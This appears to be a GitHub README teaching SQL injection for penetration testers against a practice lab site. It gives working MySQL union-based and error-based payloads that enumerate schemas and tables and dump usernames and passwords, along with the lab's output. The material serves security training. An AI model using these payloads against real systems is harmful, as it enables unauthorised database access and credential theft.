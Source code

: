 # SQL Injections for Pentesters

by: @Anake    (Anakein)
email: anakein [@] protonmail [dot] ch

Hello my friends, this is my repo about sql injections. 

References:

 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 
 http://www.securityidiots.com/Web-Pentest/SQL-Injection
 
 
LAB: http://leettime.net/sqlninja.com/index.php


```
select * from table_name where id=23

select * from table_name where id='23'

select * from table_name where id="23"

select * from table_name where id=(23)

select * from table_name where id=('23')

select * from table_name where id=("23")


+--------+-----------------------------------+
|Comment	|	      Name           | 
+--------+-----------------------------------+
|--	 :	MySQL Linux Style            |
|--+     :	MySQL Windows Style          |
|#	 :	Hash (URL encode while use)  |
|--+-	 :	SQL Comment                  |
|;%00	 :	Null Byte                    |
|`       :      Backtick                     |
+--------+-----------------------------------+

```

#### Information IMPORTANT
Remember whenever the input is enclosed with single quotes only single quote with input will create error.
When input is enlcosed by double quotes a double qoute with input will give error.
When Input is not enlcosed with anything single quote and double quote both will give error.

First of all we can try our input with some injections to see if we get any error. Error may always not be real SQL error it may be some times generic error or change in output of the application. All you have to do it recognise it. 

![MySQL](https://img.shields.io/badge/1-MySQL%20Error%20Style-critical)

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1`

![mssql](https://img.shields.io/badge/2-MSSQL%20ASPX%20Error-critical)

`Server Error in '/' Application`

![MSAcess](https://img.shields.io/badge/3-MSAccess%20(Apache%20PHP)-critical)

`Fatal error: Uncaught exception 'com_exception' with message Source: Microsoft JET Database Engine`

![MSAccessIISaSp](https://img.shields.io/badge/4-MSAccesss%20(IIS%20ASP)-critical)

`Microsoft JET Database Engine error '80040e14'`

![oracle](https://img.shields.io/badge/5-Oracle%20Error-critical)

`ORA-00933: SQL command not properly ended`

![ORA](https://img.shields.io/badge/6-ODBC%20Error-critical)

`Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)`

![postgree](https://img.shields.io/badge/7-PostgreSQL%20Error-critical)

`PSQLException: ERROR: unterminated quoted string at or near "'" Position: 1
or
Query failed: ERROR: syntax error at or near
"'" at character 56 in /www/site/test.php on line 121.`

##### MS SQL Server: Error:
![mssqlserver](https://img.shields.io/badge/8-MS%20SQL%20Server-critical)

`Microsoft SQL Native Client error %u201880040e14%u2019
Unclosed quotation mark after the character string`

Now i will show you different tests to create errors and confirm which query is working inside the Application while using the same example "http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1" url, You can perform these tests and check the reactions of the application:

```
+---------------------------+-------------------------------------------------------------------------------------+
|Input	                    | 	Reaction if its Intiger Based Injection                                           |
+---------------------------+-------------------------------------------------------------------------------------+
|23'                        :   It should cause error or no output                                                |
|"	                    :	Should cause error or no output                                                   |
|23 or 1=1	            :	Any Output should come but may be different output                                |
|23 and 1=1	            :	Same output should come                                                           |
|23 and false	            :	No output                                                                         |
|23 and true	            :	Same Output                                                                       |
|23--+	                    :	Same output. I used --+ to comment, later i ll show how to know which one to use  |
|23 and true--+	            :	Same output                                                                       |
+-----------------------------------------------------------------------------------------------------------------+
```


## MYSQL Union Based

### Extract database with information_schema

First you need to know the number of columns, you can use `order by`

```sql
order by 1
order by 2
order by 3
...
order by XXX
```

OR

`1' order by 1,2,3%23`



Then the following codes will extract the databases'name, tables'name, columns'name.

#### Extract DATABASE NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3+fRoM+information_schema.schemata%23`

OUTPUT:     leettime_761wHole

#### Extract TABLES NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C),3+fRoM+information_schema.tables+wHeRe+table_schema=database()%23`

OUTPUT:     |testtable1|,|userlogs|,|users|

#### Extract COLUMNS NAME

>>> REMEMBER USE SINGLE QUOTE  

```

In mysql there is a particularity

String inside strings duplicate quotes!

' blablabla ''string'' '

String >> string >> string

'blablabla '' blablabla '''' string '''' '' '

This used with frequency in mysql links.

```


`1' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7C),3+fRoM+information_schema.columns+wHeRe+table_name='users'%23`

OUTPUT:    |id|,|username|,|password|,|user_type|,|sec_code|  

#### EXTRACT DATA

`1' union Select all 1,group_concat(0x7c,username,0x3a,password,0x7c),3 from users%23`

OUTPUT: |injector:khan|,|decompiler:hacktract|,|devilhunte:dante|,|Zen:sec-idiots|,|Zenodermus:security-i|,|grayhat:hacker|,|khan:haxor|,|admin:sadmin|

OR you can add limit using the `limit 0,1`, `limit 1,1`, `limit 2,1`...

`1' union Select 1,concat(username,0x3a,password),3 from users limit 2,1%23`

OUTPUT: decompiler:hacktract

## MYSQL Error Based

find errors, and interpreter. For example:

```
1'   out: 1' limit 1'
1/   out: error
1*   out: error
1--  out: no error  (Booowww)
1-- -  out: no error

Continue

1 and true;-- -    out: no error [Normal page]
1 and false;-- -   out: Invalid Input parameter [Error page]
```

##### Finding out the number of columns

```
1 order by 7-- -   out: error (Unknown column '7' in 'order clause')
1 order by 5-- -   out: no error  (us have 5 columns)

```

##### First lets try Union Based Injection.

`1 union select 1,2,3,4,database() -- -`   #No erro (loadpage normally)

Remember to invalidate the first input as i did by making it `-1`

`-1 union select 1,2,3,4,database() -- -`

OUTPUT: Username is : 2

2 is reference to the injectable field

`-1 union select 1,database(),3,4,5 -- -`

OUTPUT: Username is : leettime_761wHole







### UpdateXML function

`AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)--`

OUTPUT: Error While Selection process : XPATH syntax error: '~5.6.44-cll-lve~'






Credits: @zc00l
